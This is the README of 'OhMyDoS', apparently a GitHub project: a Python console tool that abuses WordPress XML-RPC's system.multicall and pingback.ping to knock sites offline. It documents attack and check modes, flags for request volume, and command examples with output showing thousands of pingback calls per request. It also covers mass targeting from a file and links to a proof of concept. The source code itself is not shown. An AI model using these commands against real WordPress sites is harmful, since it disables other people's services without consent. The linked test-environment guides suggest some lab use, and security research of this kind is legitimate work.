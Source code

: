 <p align="center">
<img src="https://github.com/martinkubecka/OhMyDos/blob/main/images/logo.png" alt="Logo">

# :no_entry: OhMyDoS


*OhMyDos* is a python console application abusing [Wordpress](https://wordpress.org/) API called [XML-RPC](https://codex.wordpress.org/XML-RPC_Support) and its functions `system.multicall` and `pingback.ping` with aim of Denial-of-Service. 

---
## :memo: Pre-requisites

- Python3.X ([download](https://www.python.org/downloads/release/python-3102/))
- library called `fake-useragent` ([project](https://pypi.org/project/fake-useragent/))
  - `$ pip install fake-useragent`

---
## :zap: Usage

*OhMyDos* provides 2 operation modes **check** and **attack** with ability to automate targeting of multiple Wordpress websites. 

### Attack Mode

#### Option Flags

Flags | Description
--|--
-e | Number of entries per one `system.multicall` (per one POST request)
-r | Number of POST request per target

#### Single Target

```
$ python3 OhMyDoS.py attack http://pingback.com http://example.com

    ▒█████   ██░ ██     ███▄ ▄███▓▓██   ██▓   ▓█████▄  ▒█████    ██████ 
    ▒██▒  ██▒▓██░ ██▒   ▓██▒▀█▀ ██▒ ▒██  ██▒   ▒██▀ ██▌▒██▒  ██▒▒██    ▒ 
    ▒██░  ██▒▒██▀▀██░   ▓██    ▓██░  ▒██ ██░   ░██   █▌▒██░  ██▒░ ▓██▄   
    ▒██   ██░░▓█ ░██    ▒██    ▒██   ░ ▐██▓░   ░▓█▄   ▌▒██   ██░  ▒   ██▒
    ░ ████▓▒░░▓█▒░██▓   ▒██▒   ░██▒  ░ ██▒▓░   ░▒████▓ ░ ████▓▒░▒██████▒▒
    ░ ▒░▒░▒░  ▒ ░░▒░▒   ░ ▒░   ░  ░   ██▒▒▒     ▒▒▓  ▒ ░ ▒░▒░▒░ ▒ ▒▓▒ ▒ ░
    ░ ▒ ▒░  ▒ ░▒░ ░   ░  ░      ░ ▓██ ░▒░     ░ ▒  ▒   ░ ▒ ▒░ ░ ░▒  ░ ░
      ░ ░     ░  ░  ░   ░      ░    ▒ ▒         ░    ░   ░   ▒     ░  ░  
    
----------------------------------------------------------------------------
[>] Target : http://example.com
[>] Building 2000 pingback calls per one request
[>] Request size: 243.649 kB

[~] Starting attack, press CTRL+C to stop ...
[>] Requests sent : 159

[~] Attack interrupted by keypress
```

#### Multiple Targets

```
$ python3 OhMyDoS.py attack http://pingback.com targets.txt
```

### Check Mode

#### Single Target

```
$ python3 OhMyDoS.py check http://example.com

    ▒█████   ██░ ██     ███▄ ▄███▓▓██   ██▓   ▓█████▄  ▒█████    ██████ 
    ▒██▒  ██▒▓██░ ██▒   ▓██▒▀█▀ ██▒ ▒██  ██▒   ▒██▀ ██▌▒██▒  ██▒▒██    ▒ 
    ▒██░  ██▒▒██▀▀██░   ▓██    ▓██░  ▒██ ██░   ░██   █▌▒██░  ██▒░ ▓██▄   
    ▒██   ██░░▓█ ░██    ▒██    ▒██   ░ ▐██▓░   ░▓█▄   ▌▒██   ██░  ▒   ██▒
    ░ ████▓▒░░▓█▒░██▓   ▒██▒   ░██▒  ░ ██▒▓░   ░▒████▓ ░ ████▓▒░▒██████▒▒
    ░ ▒░▒░▒░  ▒ ░░▒░▒   ░ ▒░   ░  ░   ██▒▒▒     ▒▒▓  ▒ ░ ▒░▒░▒░ ▒ ▒▓▒ ▒ ░
    ░ ▒ ▒░  ▒ ░▒░ ░   ░  ░      ░ ▓██ ░▒░     ░ ▒  ▒   ░ ▒ ▒░ ░ ░▒  ░ ░
      ░ ░     ░  ░  ░   ░      ░    ▒ ▒         ░    ░   ░   ▒     ░  ░  
    
----------------------------------------------------------------------------
[>] Checking if XML-RPC for http://example.com is enabled ...
[>] XML-RPC enabled.

```

#### Multiple Targets

```
$ python3 OhMyDoS.py check targets.txt
```

---
## :postbox: Resources

- WordPress DoS: Rediscovering an Unpatched 0-Day ([blog post](https://labs.arcturus.net/post/WordPress-DoS.html))
    - PoC : https://github.com/roddux/wordpress-dos-poc (this project is build on the top of this PoC)
- Exploiting the xmlrpc.php on all WordPress versions ([blog post](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/))

---
## :triangular_ruler: Testing Environment Set Up

- How To Install WordPress with LAMP ([link](https://github.com/martinkubecka/OhMyDoS/blob/main/guides/Wordpress_LAMP.md))
- WordPress in a Docker container ([link](https://github.com/martinkubecka/OhMyDoS/blob/main/guides/Wordpress_Docker.md))